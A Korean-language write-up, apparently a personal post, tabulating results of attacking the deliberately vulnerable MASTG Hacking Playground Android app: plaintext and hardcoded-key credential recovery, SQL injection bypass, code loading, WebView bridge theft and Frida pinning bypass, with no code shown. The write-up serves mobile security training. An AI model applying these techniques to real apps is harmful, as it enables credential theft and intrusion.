화면 수로는 20개인데, MASTG 공식 매핑 문서를 보면 화면 하나가 테스트 ID 두 개를 겸하는 경우가 있어서(저장소 테스트 하나가 저장과 암호화 두 항목을 동시에 채점하는 식입니다) 다 더하면 24개가 됩니다. 아래 표는 화면 기준으로 정리했습니다.

| 분류 | 테스트 케이스 | 결과 |
| --- | --- | --- |
| 저장 | SharedPreferences | 평문 (`administrator`/`supersecret`) |
| 저장 | 내부 저장소 | 평문 카드번호 |
| 저장 | 외부 저장소 | 평문, 단 런타임 권한 승인 필요 |
| 저장 | SQLite(평문) | 평문 (`admin`/`AdminPass`) |
| 저장 | SQLite(SQLCipher) | 네이티브에 하드코딩된 키로 복호 성공 |
| 저장 | 자작 암호 | XOR+NOT 역연산으로 비밀번호 복구 |
| 저장 | 메모리 암호화 | 하드코딩 AES/HMAC 키로 복호 성공 |
| 저장 | KeyChain | 비밀번호가 화면 설명에 그냥 적혀 있음 |
| 저장 | AndroidKeyStore | 올바른 예시(비교 기준선) |
| 저장 | 로깅 | 입력값이 logcat에 평문 노출 |
| 저장 | 키보드 캐시 | 예측 변환은 차단, 키보드 자체 사전은 미검증 |
| 저장 | 클립보드 | 설명과 달리 비활성화 안 됨, 타 앱에서 읽힘 |
| 코드 실행 | SQL 인젝션 | 인증 우회 성공 |
| 코드 실행 | SQL 인젝션(모범 사례) | 파라미터 바인딩으로 차단 확인 |
| 코드 실행 | ContentProvider SQLi | UNION으로 스키마 유출, 앱 크래시도 유발 |
| 코드 실행 | DexClassLoader | 임의 코드 실행 + 자격증명 탈취 |
| WebView | 원격 WebView/JS 브릿지 | 원격 페이지는 죽었지만 브릿지 시크릿 탈취 성공 |
| WebView | 로컬 WebView/getClass RCE | API17+ 정책으로 차단 확인 |
| 네트워크 | 평문 HTTP | mitmproxy로 완전 평문 캡처 |
| 네트워크 | SSL 피닝 | Burp CA 전용 구현, Frida로 완전 우회 |
| 네트워크 | 인증서 피닝(정석) | 구현은 맞지만 인증서 만료로 테스트 자체가 깨짐 |
| 레거시(API23) | MODE_WORLD_READABLE | DAC 레벨에서 교차 UID 읽기 성공 |

하나씩 끝낼 때마다 "코드 문제인가, 플랫폼이 막은 건가, 아니면 그냥 테스트가 낡아서 안 되는 건가"를 가려내는 게 생각보다 까다로웠습니다. 겉보기엔 셋 다 똑같이 "안 뚫림"으로 보이니까요. MASTG Hacking Playground는 2018~2020년쯤 만들어진 앱이라, 지금 기준으로 보면 권한 모델도 WebView 정책도 인증서 유효기간도 여기저기서 삐걱댑니다. 덕분에 정적 분석 결과를 그대로 믿지 않고 하나하나 손으로 켜서 확인하는 버릇이 더 붙었습니다 :)
